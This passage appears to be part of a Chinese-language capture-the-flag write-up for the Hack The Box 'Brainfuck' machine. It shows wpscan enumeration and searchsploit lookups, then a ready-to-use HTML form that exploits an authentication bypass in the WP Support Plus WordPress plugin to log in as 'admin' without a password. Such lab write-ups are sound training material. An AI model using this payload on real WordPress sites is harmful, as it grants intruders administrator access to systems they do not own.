 ![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/07-16-10/4.PNG)

访问：https://brainfuck.htb/，https://www.brainfuck.htb，https://sup3rs3cr3t.brainfuck.htb

##### **wordpress扫描器——wpscan**
```
wpscan --url https://brainfuck.htb/ --disable-tls-checks

WordPress version 4.7.3 

WP Support Plus Responsive Ticket System <= 8.0.7 - Remote Code Execution (RCE)
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/07-16-10/5.PNG)

该扫描器发现了4个插件漏洞。主要是“WP Support Plus Responsive Ticket System”
#####  **searchsploit**

searchsploit WP Support Plus Responsive

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/07-16-10/2.PNG)

```
searchsploit -m exploits/php/webapps/34589.txt
searchsploit -m exploits/php/webapps/41006.txt
searchsploit -m exploits/php/webapps/40939.txt
```
经过测试，找到了可用exp

wordpress插件“WP Support Plus Responsive Ticket System 7.1.3”提权漏洞。https://www.exploit-db.com/exploits/41006

你可以无需知道密码以任何用户名登陆，因为使用函数wp_set_auth_cookie()的方式不正确。

#####  漏洞利用

将以下表单，保存为exp.html
```
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">

	Username: <input type="text" name="username" value="admin">

	<input type="hidden" name="email" value="sth">

	<input type="hidden" name="action" value="loginGuestFacebook">

	<input type="submit" value="Login">

</form>
```
用python开启本地服务器

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/07-16-10/6.PNG)

点击exp.html，跳转到一个表单，点击Login
